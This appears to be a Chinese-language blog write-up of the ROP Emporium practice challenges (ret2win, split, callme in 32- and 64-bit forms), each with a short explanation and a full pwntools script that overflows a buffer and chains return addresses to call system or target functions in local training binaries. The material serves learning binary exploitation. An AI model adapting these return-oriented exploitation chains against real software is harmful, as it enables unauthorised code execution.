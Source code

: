 ```yaml
---
layout: post
title:  "ROP_Rmporium通关指南"
date:   2018-09-19 18:44:00
categories: WriteUp
tags: WriteUp PWN ROP_Emporium
---
```


* content
{:toc}


暑假去了趟Xman认识了一群大佬，也因此受到刺激成长了不少，这里就写一篇在xman时通关的rop—rmporium的wp来记录一下自己的学习历程





## ret2win32

### 思路

简单的rop构造，ctf-wiki上好像把这种叫做ret2text

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('ret2win32')
elf = ELF('ret2win32')

bufsize = 40
buf = 'a'*bufsize
sh_addr = 0x08048659

payload = buf + 'aaaa' + p32(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## ret2win

### 思路

和上面的方法一样，只有一点差别是在64位下前6个参数是通过寄存器传递，更多的参数才入栈。

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('ret2win')
elf = ELF('ret2win')

bufsize = 0x20
buf = 'a'*bufsize
fake_ebp = 'a'*0x8
sh_addr = 0x400811

payload = buf + fake_ebp + p64(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## split32

### 思路
热身题，很直接的ret2syscall

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./split32')
elf = ELF('./split32')

system_addr = elf.plt['system']
pop_ret = 0x080483e1
sh_addr = 0x804a030
bufsize = 40
buf = 'a'*bufsize

payload = buf + 'aaaa' + p32(system_addr) + 'aaaa' + p32(sh_addr)


def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## split

### 思路
64位的ret2syscall,比如我们想要传入一个参数，那这个参数需要被布置到寄存器rdi中，这时我们可以寻找诸如pop rdi;ret的代码片段，从而在执行完pop rdi后把栈上布置好的数据存放到寄存器rdi中后能够再次控制程序执行流（ret）

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./split')
elf = ELF('./split')

bufsize = 32
buf = 'a'*bufsize
system_addr = elf.plt['system']
pop_rdi_ret = 0x400883
sh_addr = 0x601060

payload = buf + 'a'*8 + p64(pop_rdi_ret) + p64(sh_addr) + p64(system_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme32

### 思路
ret2libc的简单利用，审计过程序和libccallme32.so不难理解要得到flag要依次调用callme_one(1,2,3),callme_two(1,2,3),callme_three(1,2,3),这三个函数都是定义在libccallme32里,所以我们可以像调用system去调用(注意堆栈平衡)

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./callme32')
elf = ELF('./callme32')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x080488a9
bufsize = 0x28
buf = 'a'*bufsize
argv = p32(1)+p32(2)+p32(3)

payload = buf + 'aaaa'
payload += p32(callme_one)+p32(ppp_ret)+argv
payload += p32(callme_two)+p32(ppp_ret)+argv
payload += p32(callme_three)+p32(ppp_ret)+argv

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme

### 思路
和32位差不多，不过不用考虑堆栈平衡(注意64位和32位的差别)

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./callme')
elf = ELF('./callme')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x401ab0
bufsize = 0x20
buf = 'a'*bufsize
argv = p64(1) + p64(2) + p64(3)

payload  = buf + 'a'*8
payload += p64(ppp_ret) + argv + p64(callme_one)
payload += p64(ppp_ret) + argv + p64(callme_two)
payload += p64(ppp_ret) + argv + p64(callme_three)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```